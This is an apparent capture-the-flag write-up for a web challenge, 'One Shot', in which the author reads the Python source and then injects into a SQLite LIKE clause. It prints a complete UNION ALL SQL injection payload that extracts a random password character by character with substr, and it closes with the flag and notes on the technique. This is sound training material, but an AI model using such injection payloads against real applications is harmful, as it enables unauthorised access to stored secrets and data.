


# WEB EXP
# ONE SHOT
## CHALLENGE
we are given a website with a input field.
## FLAG 
`nite{are_you_feeling_the_heat_now :)}`
## MY SOLVE
1. i go thru the python source code and understand the mechanism behind the website
2. `/new_session` creates a table: `table_<id>(password TEXT, searched INTEGER)`
3. It inserts one random password `(os.urandom(16).hex()` 
4. output is something like `+ row[0][0] + "*" * (len(row[0]) - 1) + `
5. so for each row, it prints only the first character of the password column value and rest are `*`.
6. we only get one `/search` per id because searched is set to 1.
7. so we start a new session and get table id from the html page

8. so the sql looks like `SELECT password FROM table_<id> WHERE password LIKE '%<your_query_here>%'`
9. hence i modify search input such that the ' from like gets closed, all unions are chanined and each select returns one character from password and comment out rest of trailing query
10. final query should look like this
```bash
    SELECT password FROM table_<id>
    WHERE password LIKE '%g' 
    UNION ALL SELECT substr(password,1,1)  FROM table_<id>
    UNION ALL SELECT substr(password,2,1)  FROM table_<id>
```
11. so i look it up and get table id as `d05dc9b74ef89182`
12. i craft my query to be
```bash
    g' UNION ALL SELECT substr(password,1,1)  FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,2,1)  FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,3,1)  FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,4,1)  FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,5,1)  FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,6,1)  FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,7,1)  FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,8,1)  FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,9,1)  FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,10,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,11,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,12,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,13,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,14,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,15,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,16,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,17,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,18,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,19,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,20,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,21,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,22,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,23,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,24,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,25,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,26,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,27,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,28,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,29,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,30,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,31,1) FROM table_d05dc9b74ef89182
    UNION ALL SELECT substr(password,32,1) FROM table_d05dc9b74ef89182--
```
13. i run this and it gives my following output.

14. now i put this as password and get my flaf
## LEARNINGS/MISTAKES
1. `%g%` is a good option to use because g is not part of hex. so it cant break the code. initially i used like `%a%` and it caused errors
2. `UNION ALL` keeps duplicates cos plain `UNION `collapses repeated stuff
3. ` -- ` at the end comments out the rest (%'), so the SQL is  valid.
4. `substr(str, start, length)` is sqlite specific and starts with index 1.
